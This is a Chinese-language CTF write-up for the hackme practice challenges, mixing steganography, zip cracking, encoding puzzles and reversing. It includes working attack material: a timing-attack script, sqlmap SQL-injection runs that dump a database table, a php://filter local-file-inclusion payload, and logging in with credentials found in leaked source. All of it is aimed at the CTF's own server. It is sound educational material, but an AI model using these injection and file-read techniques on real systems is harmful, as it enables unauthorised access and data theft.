




[TOC]


# hackme CTF

### Misc

#### 01 Misc    flag

`FLAG{This is flag's format}`

#### 02 Misc    corgi can fly

##### ##LSB隐写

```python
from PIL import Image

im = Image.open('corgi-can-fly.png')
source = im.split()
for i in range(3):
	a=source[i].point(lambda i: i%2==1 and 255)
	a.show()
```

拿到二维码，扫描二维码得到`flag`。

#### 03 Misc    television

```sh
strings television.bmp|grep -P "FLAG{.+?}"
```

#### 04 Misc    meow

```sh
foremost meow.png 
```

得到一张图片`00000000.png`和一个加密的压缩文件`00000094.zip`。压缩文件包含`flag`文件以及`png`图片。





对比`00000000.png`和压缩文件中图片的`crc`值相同。

##### ##明文攻击

工具`pkcrack`、`archpr`等。

```sh
root1@root1-virtual-machine:~/Downloads/output/png$ zip plain.zip 00000000.png
  adding: 00000000.png (deflated 0%)
root1@root1-virtual-machine:~/Downloads$ unzip -l ./output/zip/00000094.zip 
Archive:  ./output/zip/00000094.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2016-06-11 16:22   meow/
       47  2016-06-11 16:22   meow/flag
        0  2016-06-11 16:20   meow/t39.1997-6/
        0  2016-06-11 16:21   meow/t39.1997-6/p296x100/
    48543  2014-05-14 05:59   meow/t39.1997-6/p296x100/10173502_279586372215628_1950740854_n.png
---------                     -------
    48590                     5 files
root1@root1-virtual-machine:~/Downloads$ ./pkcrack -C ./output/zip/00000094.zip -c meow/t39.1997-6/p296x100/10173502_279586372215628_1950740854_n.png -P ./output/png/plain.zip -p 00000000.png -d decrypted.zip -a
```

#### 05 Misc    where is flag

```python
import re

patt1=re.compile("FLAG{\w+?}")
f=open("flag","r")
content=f.read()
f.close()
print(patt1.findall(content))
```

#### 06 Misc    encoder

write up：

encoder.py：

```python
#!/usr/bin/env python2

import random
import string

def rot13(s):
    return s.translate(string.maketrans(string.uppercase + string.lowercase,
        string.uppercase[13:] + string.uppercase[:13] +
        string.lowercase[13:] + string.lowercase[:13]))

def base64(s):
    return ''.join(s.encode('base64').split())

def hex(s):
    return s.encode('hex')

def upsidedown(s):
    return s.translate(string.maketrans(string.uppercase + string.lowercase,
        string.lowercase + string.uppercase))

flag = 'FLAG{.....................}'  # try to recover flag

E = (rot13, base64, hex, upsidedown)

for i in range(random.randint(30, 50)):
    print i
    c = random.randint(0, len(E) - 1)
    flag = '%d%s' % (c, E[c](flag))

open('flag.enc', 'w').write(flag)
```

decoder.py：

```python
import base64
import random
import string
import binascii

def rot13(s):
    return s.translate(str.maketrans(string.ascii_uppercase + string.ascii_lowercase,
        string.ascii_uppercase[13:] + string.ascii_uppercase[:13] +
        string.ascii_lowercase[13:] + string.ascii_lowercase[:13]))

def base64_encode(s):
    return base64.b64encode(s.encode()).decode()

def base64_decode(s):
    return base64.b64decode(s.encode()).decode()

def hex_encode(s):
    return binascii.hexlify(s.encode()).decode()  
    
def hex_decode(s):
    return binascii.unhexlify(s.encode()).decode()  

def upsidedown(s):
    return s.translate(str.maketrans(string.ascii_uppercase + string.ascii_lowercase,
        string.ascii_lowercase + string.ascii_uppercase))

E = (rot13, base64_encode, hex_encode, upsidedown)
D = (rot13, base64_decode, hex_decode, upsidedown)

flag=open('flag.enc', 'r').read()
while True:
    flag = D[int(flag[0])](flag[1:])
    if flag[:4]=='FLAG':
        break
print(flag)
```

#### 07 Misc    slow

write up：

测试代码：

```python
from pwn import *
from time import time

def check_flag(flag):
    context.log_level = 'error'
    p=remote('ctf.hackme.quest', 7708)
    base_time = time()
    p.sendlineafter(b'What is your flag? ', flag)
    p.readall()
    p.close()
    return time() - base_time

value=check_flag(b"BBB")
print(value)
value=check_flag(b"FBB")
print(value)
value=check_flag(b"FLB")
print(value)
value=check_flag(b"FLA")
print(value)
```

```
root1@root1-virtual-machine:~$ python3 test.py 
1.3286304473876953
2.3835349082946777
3.2917098999023438
4.31574010848999
```

可以看到正确的字符越多，用的时间越长。

##### ##时序攻击

```python
import threading
from pwn import *
from time import time
from string import ascii_uppercase, digits

results={}
def check_flag(token):
    context.log_level = 'error'
    flag='FLAG{' + token + '}'
    p=remote('ctf.hackme.quest', 7708)
    base_time = time()
    p.sendlineafter(b'What is your flag? ', flag.encode())
    p.readall()
    p.close()
    results[token]=time() - base_time
    return time() - base_time

token=''
time_0=check_flag(token)
rtimes=[time_0]
charset=ascii_uppercase + digits + '_'
while True:
    threads=[]
    results={}
    for each in charset:
        _token=token+each
        t=threading.Thread(target=check_flag,args=(_token,))
        t.start()
        threads.append(t)
    for each in threads:
        each.join()
    for name,value in results.items():
        if time_0<value:
            time_0=value
            token=name
    rtimes.append(time_0)
    average=(rtimes[-1]-rtimes[0])/(len(rtimes)-1)
    if rtimes[-1]-rtimes[-2]<average/2:
        break
    print("%19.16f %19.16f"%(time_0,average),'FLAG{' + token + '}')
```

#### 08 Misc    pusheen.txt

write up：

只有两种图案，把图案转换成二进制。

```python
f=open("pusheen.txt","rb")
lines=f.readlines()
f.close()

bits=[]
for i in range(0,len(lines),16):
    if len(lines[i+1])==68:
        bits.append(0)
    else:
        bits.append(1)
flag=""
for i in range(0,len(bits),8):
    num=0
    for j in range(8):
        num=num+(bits[i+j]<<(7-j))
    flag=flag+chr(num)
print(flag)
```

#### 09 Misc    big

write up：

```sh
root1@root1-virtual-machine:~$ file big.xxz 
big.xxz: XZ compressed data
root1@root1-virtual-machine:~$ xzcat big.xxz > big.xz
root1@root1-virtual-machine:~$ file big.xz
big.xz: XZ compressed data
root1@root1-virtual-machine:~$ xzcat big.xz|grep -P "FLAG{.+?}"
```

#### 10 Misc    otaku

write up：

题目给的图片：


网上的原图：


##### ##StegSolve

`Analyse->Image Combiner`。

- `xor`运算时已经可以看到`flag`了，但是不太清楚。
- `sub`运算就能看到清晰的`flag`。
- `1-0=1`为几乎黑色，`0-1=0xff`为几乎白色。只有图2`sub`图1的时候才能看到`flag`。

```python
from PIL import Image

def sub(a, b):
    return bytes((i - j) & 0xff for i, j in zip(a, b))

im1 = Image.open("Miku_Hatsune.png")
im1_bytes = im1.tobytes()
im2 = Image.open("Miku_Hatsune_orgin.png")
im2_bytes = im2.tobytes()

im3_bytes = sub(im2_bytes,im1_bytes)
im3 = Image.frombytes("RGBA",im1.size,im3_bytes)
im3 = im3.convert("RGB")
im3.show()
```

`python`脚本`sub`后`alpha`通道（不透明度参数）为`0`，因此需要把`RGBA`转换为`RGB`。

#### 11 Misc    buzzing

write up：

用`SteSolve`以及`PIL`库打开图片，都报错。利用`python`库的报错信息分析原因。

```python
from PIL import Image

im1 = Image.open("buzzing.bmp")
```

`raise OSError`：

```
  File "/usr/lib/python3/dist-packages/PIL/BmpImagePlugin.py", line 205, in _bitmap
    raise OSError("Unsupported BMP bitfields layout")
OSError: Unsupported BMP bitfields layout
```

`file_info`：

```json
{'header_size': 124, 'direction': -1, 'y_flip': False, 'width': 371, 'height': 377, 'planes': 1, 'bits': 32, 'compression': 3, 'data_size': 1024000, 'pixels_per_meter': (2835, 2835), 'colors': 4294967296, 'palette_padding': 4, 'r_mask': 1090519040, 'g_mask': 4259840, 'b_mask': 16640, 'a_mask': 65, 'rgb_mask': (1090519040, 4259840, 16640), 'rgba_mask': (1090519040, 4259840, 16640, 65)}
```

`SUPPORTED`：

```json
SUPPORTED = {
                32: [
                    (0xFF0000, 0xFF00, 0xFF, 0x0),
                    (0xFF0000, 0xFF00, 0xFF, 0xFF000000),
                    (0xFF, 0xFF00, 0xFF0000, 0xFF000000),
                    (0x0, 0x0, 0x0, 0x0),
                    (0xFF000000, 0xFF0000, 0xFF00, 0x0),
                ],
                24: [(0xFF0000, 0xFF00, 0xFF)],
                16: [(0xF800, 0x7E0, 0x1F), (0x7C00, 0x3E0, 0x1F)],
            }
MASK_MODES = {
                (32, (0xFF0000, 0xFF00, 0xFF, 0x0)): "BGRX",
                (32, (0xFF000000, 0xFF0000, 0xFF00, 0x0)): "XBGR",
                (32, (0xFF, 0xFF00, 0xFF0000, 0xFF000000)): "RGBA",
                (32, (0xFF0000, 0xFF00, 0xFF, 0xFF000000)): "BGRA",
                (32, (0x0, 0x0, 0x0, 0x0)): "BGRA",
                (24, (0xFF0000, 0xFF00, 0xFF)): "BGR",
                (16, (0xF800, 0x7E0, 0x1F)): "BGR;16",
                (16, (0x7C00, 0x3E0, 0x1F)): "BGR;15",
            }
```

修改`rgb_mask`，图片能正常打开，可以看到像素排列很奇怪，跟没对齐一样。



```python
import struct
from PIL import Image

f=open("buzzing.bmp","rb")
buzzing=f.read()
f.close()

rgb_mask=struct.pack("<I",0xFF)+struct.pack("<I",0xFF00)+struct.pack("<I",0xFF0000)+struct.pack("<I",0xFF000000)
new_buzzing=buzzing[:0x36]+rgb_mask+buzzing[0x46:]

f=open("new_buzzing.bmp","wb")
f.write(new_buzzing)
f.close()

im1 = Image.open("new_buzzing.bmp")
print(im1)
```

可以看到图像大小`(371, 377)`，但是图片数据大小是`1024000`。遍历图像大小是`1024000/4`的图片。

```python
import struct
from PIL import Image

f=open("buzzing.bmp","rb")
buzzing=f.read()
f.close()

for i in range(3):
    for j in range(11):
        x=pow(5,i)*pow(2,j)
        y=pow(5,3-i)*pow(2,11-j)
        assert x*y==256000      
        if x>40 and y>40:
            im3 = Image.frombytes("RGBA",(x,y),buzzing[0x8a:])
            print(im3)
            im3.show()
```

`Green plane 0`能看到清晰的`FLAG`。

#### 12 Misc    drvtry vpfr

write up：

替换密码，键盘序左移后得到正确`flag`。

```python
ch = 'abcdefghijklmnopqrstuvwxyzABCDEFGHJIKLMNOPQRSTUVWXYZ{}'
vj = 'snvfrghjokl;,mp[wtdyibecuxSNVFRGHJOKL:<MP{WTDYIBECUZ}|' # Keyboard right shift 1 key

T = str.maketrans(vj, ch)

print('drvtry vpfr'.translate(T))
print('G:SH}Djogy <u Lrunpstf Smf Yu[omh Dp,ryjomh|'.translate(T))
```

#### 13 Misc    BZBZ

write up：

网页需要用户名登陆，登录错误后会弹窗`You must be a employee from bilibili!`。

提示 ` bilibili source code leak`。github上找到源码`https://github.com/mujiansu/openbilibili-common`。`openbilibili-common-master\app\admin\main\up\cmd\up-admin.toml`文件里有用户名口令，尝试登陆，获取到`flag`。

#### 14 Misc    zipfile

write up：

`zipfile.zip`，使用`unzip`解压后依然是`zipfile.zip`，可以重复解压多次。使用脚本完成多次解压：

```bash
#!/bin/bash
while :
do
    mv zipfile.zip zipfile_bak.zip
    unzip -o zipfile_bak.zip
done
```

最后一个zip文件，解压后目录路径很长，由`0`、`1`组成，去掉多余的`0`。先解开里面的第一个文件：

```python
import zipfile


myzip = zipfile.ZipFile('zipfile_bak.zip')

def decompress_zip_data(data):
    f=open("tmp.zip","wb")
    f.write(data)
    f.close()
    with zipfile.ZipFile("tmp.zip") as tmp_zip:
        print(tmp_zip.infolist())
        for info in tmp_zip.infolist():
            _data=tmp_zip.read(info)
            if _data[:2]==b"PK":
                decompress_zip_data(_data)
            else:
                print(_data)

for name in myzip.namelist():
    data = myzip.read(name)
    print(name[-18:-3])
    decompress_zip_data(data)
    break
```

```sh
0/1/1/1/0/0/0/1
[<ZipInfo filename='ü㥧ܩ\x8f\x9eã\x81÷\x8c' compress_type=deflate filemode='?rw-------' file_size=856 compress_size=191>]
[<ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>, <ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>, <ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>, <ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>, <ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>, <ZipInfo filename='X/O/R/_/T/H/E/S/E/_/F/I/L/E/S' compress_type=deflate filemode='?rw-------' file_size=3 compress_size=5>]
b'\xcbh#'
b'\xcb\x1f\xe2'
b'\x83\x06\xa7'
b'\x17\xa6\xbf'
b'\xf2}\xb2'
b'\x11\x9d\x1e'
```

两层zip压缩，第二层解压出来有三个文件。提示`X/O/R/_/T/H/E/S/E/_/F/I/L/E/S`，把文件内容进行异或。先后尝试同一文件内容进行异或，以及不同文件按字节进行异或。

```python
import zipfile


myzip = zipfile.ZipFile('zipfile_bak.zip')

def decompress_zip_data(data):
    f=open("tmp1.zip","wb")
    f.write(data)
    f.close()
    with zipfile.ZipFile("tmp1.zip") as tmp_zip1:
        _info=tmp_zip1.infolist()[0]
        _data1=tmp_zip1.read(_info)
        f=open("tmp2.zip","wb")
        f.write(_data1)
        f.close()
        _data=[]
        with zipfile.ZipFile("tmp2.zip") as tmp_zip2:
            for _info2 in tmp_zip2.infolist():
                _data2=tmp_zip2.read(_info2)
                _data.append(_data2)
    s = ''
    for i in range(len(_data[0])):
        t = 0
        for j in range(len(_data)):
            t ^= _data[j][i]
        s=s+chr(t)
    print(s)

for info in myzip.infolist():
    data = myzip.read(info)
    print(info.filename[-18:-3])
    decompress_zip_data(data)
    break
```

不同文件按字节进行异或后是明文:

```
0/1/1/1/0/0/0/1
w7u
```

文件名为`0/1/1/1/0/0/0/1`，考虑二进制，转换为整数为113。同一个整数对应多个明文，把所有的明文按数字大小进行排序：

```
[' ', 'I', ' ']
['4d', ' a', ':t']
['ta', 'm ', 'ut']
['het', 'not', 'tuc']
['e', ' ', '3']
[' 4', 'su', 'z3']
[' te', 're ', '6uu']
['4', 'a', 't']
['n', 'b', '{']
['iw', 'ou', ' n']
['u. ', 't h', 'h4 ']
['gy', 'ow', 'tf']
...
```

所有的明文中寻找`FLAG{}`字符，可以发现第二列可以组成一段话。

```python
import zipfile


myzip = zipfile.ZipFile('zipfile_bak.zip')

def decompress_zip_data(data):
    f=open("tmp1.zip","wb")
    f.write(data)
    f.close()
    with zipfile.ZipFile("tmp1.zip") as tmp_zip1:
        _info=tmp_zip1.infolist()[0]
        _data1=tmp_zip1.read(_info)
        f=open("tmp2.zip","wb")
        f.write(_data1)
        f.close()
        _data=[]
        with zipfile.ZipFile("tmp2.zip") as tmp_zip2:
            for _info2 in tmp_zip2.infolist():
                _data2=tmp_zip2.read(_info2)
                _data.append(_data2)
    s=''
    for i in range(len(_data[0])):
        t = 0
        for j in range(len(_data)):
            t ^= _data[j][i]
        s=s+chr(t)
    return s

result={}
for info in myzip.infolist():
    data = myzip.read(info)
    name=info.filename[-18:-3].split('/')
    index=0
    for i in range(8):
        index=index+(int(name[i])<<(7-i))
    if str(index) not in result:
        result[str(index)]=[]
    ret=decompress_zip_data(data)
    result[str(index)].append(ret)
new_result={}
for i in range(256):
    if str(i) in result:
        new_result[str(i)]=result[str(i)]
for name,value in new_result.items():
    print(value[1],end='')
```

### Web

#### 15 Web    hide and seek

浏览器查看页面源代码。

#### 16 Web    guestbook

提示使用`sqlmap`。该页面主要有两个功能，一个`New Post`，一个`Message List`。大概猜测`New Post`是往数据库里写数据，`Message List`是查询数据。

先通过`New Post`写一条数据，然后通过访问`https://ctf.hackme.quest/gb/?mod=read&id=13835`可以查看刚写的数据。这里`id`明显是一个注入点。

```bash
root1@ubuntu:~$ sqlmap -p id -u 'https://ctf.hackme.quest/gb/?mod=read&id=13835' 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mod=read&id=13835 AND (SELECT 2260 FROM (SELECT(SLEEP(5)))BlYX)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: mod=read&id=13835 UNION ALL SELECT NULL,NULL,CONCAT(0x717a7a7871,0x4e6543535253747a456f626c4e6c674454587741497775664e4c59786f6d7374697975474b65495a,0x7170627671),NULL-- -
---
```

检索当前数据库：

```bash
root1@ubuntu:~$ sqlmap -p id --current-db --all -u 'https://ctf.hackme.quest/gb/?mod=read&id=13835'
Database: g8                                                                   
Table: flag
[3 entries]
+------+----------------------------------------------------+----------+----------+
| id   | flag                                               | padding0 | padding1 |
+------+----------------------------------------------------+----------+----------+
| 1    | http://i.giphy.com/3o72FdPiRXBRbBLUc0.gif          | 1337     | 31415926 |
| 2    | FLAG{Y0U_KN0W_SQL_1NJECT10N!!!' or 595342>123123#} | 77       | 88       |
| 3    | http://i.giphy.com/m7BTtLWhjkEJa.gif               | 6666     | 9999     |
+------+----------------------------------------------------+----------+----------+
```

#### 17 Web    LFI

提示LFI，并且`intro`页面描述为`php`。三个页面对应的`url`为

```
https://ctf.hackme.quest/lfi/?page=pages/login
https://ctf.hackme.quest/lfi/?page=pages/intro
https://ctf.hackme.quest/lfi/?page=pages/index
```

通过LFI读取源码，`https://ctf.hackme.quest/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/login`

```
<?php
require('config.php');
if($_POST['user'] === 'admin' && md5($_POST['pass']) === 'bed128365216c019988915ed3add75fb') {
    echo $flag;
} else {
?>
<form action="?page=pages/login" method="post" role="form">
	<div class="form-group">
		<label for="user-i">User</label>
		<input type="text" class="form-control" id="user-i" placeholder="Username" name="user">
	</div>
	<div class="form-group">
		<label for="pass-i">Password</label>
		<input type="password" class="form-control" id="pass-i" placeholder="Password" name="pass">
	</div>
	<button type="submit" class="btn btn-primary">Login</button>
</form>
<?php } ?>
```

`bed128365216c019988915ed3add75fb`是一个`md5`值，通过`md5`在线破解网站发现是弱口令`passw0rd`。使用用户名口令登陆页面。登陆后拿到`FLAG`。

源码中能看到`$flag`应该在`config.php`中，访问`https://ctf.hackme.quest/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`也能拿到`FLAG`。

#### 18 Web    homepage

提示`Where is the flag? Did you check the code?`。检查页面的`js`代码，找到`cute.js`，是`aaencode`。浏览器F12，代码放在`console`口中运行得到一个二维码。扫码后拿到`FLAG`。

#### 55 Reversing    esrever-mv

write up：

方法`1`：

```sh
root1@root1-virtual-machine:~/Documents$ ./esrever-mv
Input flag: abcd
Bad flag
root1@root1-virtual-machine:~/Documents$ bcd

Command 'bcd' not found
root1@root1-virtual-machine:~/Documents$ ./esrever-mv
Input flag: FLAGefgh
Bad flag
root1@root1-virtual-machine:~/Documents$ fgh

Command 'fgh' not found, did you mean:
```

可以看到程序是单个字符读入，判断是否正确，正确读入下一个字符，错误就退出。利用这个现象可以遍历出`flag`。

```python
import struct
import time
from pwn import *

data=b""
i=0
while True:
    send_data=data
    send_data=send_data+struct.pack(">B",i)
    print(send_data)
    p=process("./esrever-mv")
    p.send(send_data)
    time.sleep(0.1)
    recv_data=p.recv()
    p.close()
    i=i+1
    if b"Bad flag\n" not in recv_data:
        data=send_data
        if data[-1]==0x7d:
            break
        i=0
```

方法`2`：

程序的读写都是由函数`sub_400A60(__int64 a1)`实现。

```
_int16 a1+0x10008  1 write 0 read   
char*  a1+0x1000a  write char
```

```
*(v10+8)=sub400a60
*v9=0xf2ee111
*v9+10024=-16
```


#### 56 Reversing    termvis

`termvis`会先打印图片，然后再执行一段和图片相关的代码。执行代码部分由函数`sub_4065F0(_BYTE *a1)`实现。`sub_4065F0`为`brainfuck`代码解释器。

##### ##brainfuck

| >    | 指针右移一个元素                               | p++;          |
| ---- | ---------------------------------------------- | ------------- |
| <    | 指针左移一个元素                               | p--;          |
| +    | 指针当前所指元素加1                            | *p++;         |
| -    | 指针当前所指元素减1                            | *p--;         |
| .    | 输出指针所指元素对应字符                       | putchar(*p);  |
| ,    | 输入字符的ASCII码值到指针所指元素              | *p=getchar(); |
| [    | 若指针所指元素为0，则跳转到对应']'处继续执行   | while(*p){    |
| ]    | 若指针所指元素不为0，则跳转至对应'['处继续执行 | }             |

```sh
root1@root1-virtual-machine:~$ TERMVIS_SCALE=20 ./termvis checkflag.png
Flag?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Status: Bad flag
```

随便输入`44`个字符后，显示`Bad flag`。

把`sub_4065F0`的参数`dump`下来，然后转换成通用的`brainfuck`代码。

```python
f=open("dump","rb")
content=f.read()
f.close()

code=b""
for each in content:
    tmp=each&7
    if tmp==0:
        code=code+b">"
    elif tmp==1:
        code=code+b"<"
    elif tmp==2:
        code=code+b"+"
    elif tmp==3:
        code=code+b"-"
    elif tmp==4:
        code=code+b"."
    elif tmp==5:
        code=code+b","
    elif tmp==6:
        code=code+b"["
    elif tmp==7:
        code=code+b"]"

f=open("code","wb")
f.write(code)
f.close()
```

截取有效的部分，`brainfuck code`：

```
>+++++++[<++++++++++>-]<.[-]>++++++++++[<++++++++++>-]<++++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<+++.[-]>++++++[<++++++++++>-]<+++.[-]>,>>+++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++++[<++++++++++>-]<+++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++[<++++++++++>-]<+++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++[<++++++++++>-]<++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>